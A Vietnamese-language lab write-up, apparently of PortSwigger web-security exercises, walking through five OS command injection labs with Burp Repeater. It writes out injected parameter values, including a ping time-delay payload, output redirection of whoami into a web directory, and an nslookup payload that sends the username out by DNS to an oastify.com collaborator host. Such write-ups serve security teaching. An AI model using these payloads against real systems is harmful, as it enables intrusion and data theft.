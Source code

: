 # OS Command Injection
## Executing arbitrary commands
**Lab1: OS command injection, simple case**

Bước 1: Truy cập vào một sản phẩm bất kỳ, click vào Check stock, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203685214-fba36bb0-15e7-4127-89a8-e5fb24dc0040.png)

Có nhiều cách để thực thi nhiều lệnh trên một dòng trong một shell, ví dụ: **&**, **&&**, **|**, **||**,**;**. 

Bước 2: Đổi giá trị tham số productId và storeId

![image](https://user-images.githubusercontent.com/74781135/203687216-ef1802d4-d001-46a6-b608-c492fbc5200e.png)

Từ phản hồi có thể thấy cả hai tham số đều có thể chèn câu lệnh vào và chúng được thực thi theo thứ tự productId đầu tiên, storeId thứ hai.

Bước 3: Chèn lệnh whoami để lấy được tên user

![image](https://user-images.githubusercontent.com/74781135/203687572-7a7ac458-31bb-4697-be32-56a363c11c2b.png)

![image](https://user-images.githubusercontent.com/74781135/203687597-bb7c5dd5-b270-4fa2-9f86-a7f0bebfeb1d.png)

## Blind OS command injection
**Lab2: Blind OS command injection with time delays**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203717987-8941a14a-4177-48e4-9910-d178bbd0516f.png)

Có nhiều cách để tạo độ trễ thời gian trên dấu nhắc lệnh, hầu hết phụ thuộc vào hệ điều hành (ví dụ: sleep in bash hoặc timeout trong Windows cmd). Có một lệnh có sẵn trên hầu hết mọi hệ thống có thể bị lạm dụng để gây ra sự chậm trễ: Lệnh **ping**. 

Bước 2: Thay đổi giá trị của **email=minh%40gmail.com;ping+127.0.0.1+-c+11;#** và gửi lại request. Ta thấy phản hồi là **10,707 millis**

![image](https://user-images.githubusercontent.com/74781135/203722508-fe6ea020-850e-409f-a095-fb498ad71ade.png)

Trên Windows ping mặc định cho bốn yêu cầu và mặc định này có thể được sử dụng để suy ra độ trễ. Nhưng trên Linux, ping được mặc định là vĩnh viễn, vì vậy nó sẽ không bao giờ dừng. **-c + n** là để chỉ rõ là sẽ thực hiện **n lệnh ping** trong trường hợp bài lab này là 11 lệnh ping.

![image](https://user-images.githubusercontent.com/74781135/203722303-1839aa76-d532-4044-860b-83c3eb98a715.png)

**Lab3: Blind OS command injection with output redirection**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203726686-6981d202-958d-4f52-97b3-5f2e43d168d7.png)

Như mô tả của bài lab, có thể ghi tại thư mục **/var/www/images/**

Bước 2: Thay đổi giá trị của **email=minh%40gmail.com;whoami>/var/www/images/minh.txt;#** và gửi lại request

![image](https://user-images.githubusercontent.com/74781135/203728342-15920c64-cbbc-4af6-9f29-be01d156e815.png)

output của lệnh whoami sẽ được lưu vào file minh.txt

Bước 3: Truy cập vào một sản phẩm bất kỳ. Bắt request lấy ảnh và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203728615-624156a8-c5fe-4433-ad79-d034b585ef54.png)

Bước 4: Thay đổi filename=minh.txt và gửi request. Ta thu được tên người dùng

![image](https://user-images.githubusercontent.com/74781135/203728976-9023f040-0dd9-454b-ae2a-a4f045636043.png)

![image](https://user-images.githubusercontent.com/74781135/203729051-73b357ec-c705-487d-ba8a-e5f46c39eaf9.png)

**Lab4: Blind OS command injection with out-of-band interaction**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203731260-424b9700-5b4c-452a-a65f-bb59878d2511.png)

Theo như mô tả của bài lab, có thể kích hoạt các tương tác ngoài băng tần với miền bên ngoài. Do đó, mở một Burp Collaborator và tạo một payload mới. Chèn payload này vào giá trị của email.

Bước 2: Giá trị email là: **email=minh%40gmail.com;nslookup+omepn9u8wlj1remrojsxdwnoffl69wxl.oastify.com;#**.

![image](https://user-images.githubusercontent.com/74781135/203734245-671c72ac-1806-4f69-87f7-0460fed92efd.png)

Sau khi gửi request tại burp collaborator thấy có 2 bản tra cứu DNS sẽ được hiển thị.

![image](https://user-images.githubusercontent.com/74781135/203734859-b27dcacb-4e81-47a4-b176-c0cf5fee53d7.png)

![image](https://user-images.githubusercontent.com/74781135/203734926-ea17ef03-ee3b-42c4-88ae-3d57007c11ac.png)

**Lab5: Blind OS command injection with out-of-band data exfiltration**

Bước 1:  Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203737005-df98b567-9090-4843-be28-7996173c5f6e.png)

Bước 2: Tương tự như bài Lab4, nhưng lần này yêu cầu thêm tên người dùng nên ta sẽ thêm đầu ra của whoami dưới dạng subdomain. Thay giá trị email thành: **email=minh%40gmail.com;nslookup+`whoami`.je1kf4m3ogbwj9emgeks5rfj7ad11upj.oastify.com;#** và gửi request

![image](https://user-images.githubusercontent.com/74781135/203752056-1937ac35-5b82-4ef7-8caa-56427bfed113.png)

Bước 3: Trong Burp Collaborator,  thấy có 2 bản tra cứu DNS sẽ được hiển thị. Subdomain chính là tên người dùng. username = **peter-1HDAhL**  

![image](https://user-images.githubusercontent.com/74781135/203752715-7327be5b-06d2-46dc-bf14-ef1ba122226c.png)

Bước 4: Submit tên người dùng và hoàn thành bài Lab

![image](https://user-images.githubusercontent.com/74781135/203753077-f2319d08-61fa-4ff7-9662-fd81d558889d.png)
